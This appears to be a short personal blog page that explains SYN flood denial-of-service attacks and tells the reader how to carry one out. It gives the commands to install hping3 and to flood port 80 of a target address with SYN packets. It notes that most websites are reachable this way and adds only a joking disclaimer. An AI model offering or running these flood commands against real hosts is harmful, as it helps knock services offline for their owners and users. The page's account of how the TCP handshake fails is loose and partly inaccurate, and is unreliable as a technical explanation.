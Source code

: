 ```yaml
---
layout: default
title: SYN flood DDOS attack
---
```

## {{ page.title }}

### Abstract

DDOS is a kind of network attack that sends a huge amount of requests to your server until the server cannot handle the requests and crash. There are many forms of DDOS attacks and SYN flood is one of them. 

On tcp/ip protocal a `SYN` request is sent to the server, the server `ACK`s and send a `SYN` to the client and hoping to establish a connection.  If the client intentionally hold back sending the expected `ACK` packet, the server would think the SYN packet is lost and would have to be sent again. And then the server would have to keep sending packets until the server crashes or all the ports are blocked.  Also if the original `SYN` uses fake ip addresses so the server sends `ACK`s to a spoofed ip addresses and floors the victim ips with useless packets.

### Carry out the attack

install a module called hping3.

```
$ sudo apt-get install hping3
```

and then just target a host / port that takes tcp/ip requests and flood them

```
$ sudo hping3 -i u1 -S -p 80 192.168.1.1
```

![](http://i.stack.imgur.com/BsiNk.png)

Basically all the website run on tcp/ip and you should be able to find out what host / port a website is reading stuff from.  The image is just a reference and, for legal reasons, I do not recommend attacking other people's websites. :)

![](http://i.stack.imgur.com/VJ71I.png)

--

references:

* [http://www.binarytides.com/tcp-syn-flood-dos-attack-with-hping/](http://www.binarytides.com/tcp-syn-flood-dos-attack-with-hping/)

{{ page.date | date_to_string }}





